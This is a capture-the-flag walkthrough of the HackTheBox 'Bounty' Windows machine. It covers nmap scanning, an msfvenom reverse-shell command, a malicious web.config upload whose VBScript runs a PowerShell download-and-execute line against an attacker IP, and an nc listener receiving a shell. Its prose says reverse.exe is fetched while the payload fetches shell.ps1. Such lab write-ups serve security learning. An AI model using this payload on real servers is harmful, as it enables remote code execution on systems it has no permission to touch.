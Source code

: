 ```yaml
---
title: "Bounty"
date: 2025-06-09
categories:
  - HackTheBox
  - Windows
tags:
  - HackTheBox
  - Windows
---
```


# Bounty

![](../assets/Pasted%20image%2020250609203557.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.10.93
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-09 23:35 CEST
Nmap scan report for 10.10.10.93
Host is up (0.042s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|Vista|Phone|2012|8.1 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_8.1
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (97%), Microsoft Windows Vista or Windows 7 (92%), Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows Server 2008 R2 or Windows 7 SP1 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   41.62 ms 10.10.14.1
2   41.92 ms 10.10.10.93

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.88 seconds
```

The only open `port` shows an image of `merlin`.

![](../assets/Pasted%20image%2020250609234035.png)

With `feroxbuster` we discover `/transfer.aspx`.

![](../assets/Pasted%20image%2020250609234456.png)

![](../assets/Pasted%20image%2020250610111729.png)

## Initial Access

I could use a double extension or null byte but can't reach the file, so searching for aspx config files, we can upload a `web.config` one with a reverse shell command.

Create a `msfvenom` reverse shell and start a Python HTTP server and a listener, then upload the `web.config`.

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.17 LPORT=5555 -f exe -o reverse.exe
```

```shell
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.17:8000/shell.ps1')")
%>
```

Upon visiting `/uploadedfiles/web.config`, the config will get the `reverse.exe` and execute it.

```shell
$ rlwrap nc -lnvp 5555
listening on [any] 5555 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.93] 49162
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
bounty\merlin
```

Get the flag

## Privilege Escalation

![](../assets/Pasted%20image%2020250610181107.png)

!!! bug

    ABORTED: The user has `SeImpersonatePrivilege` but nothing worked.
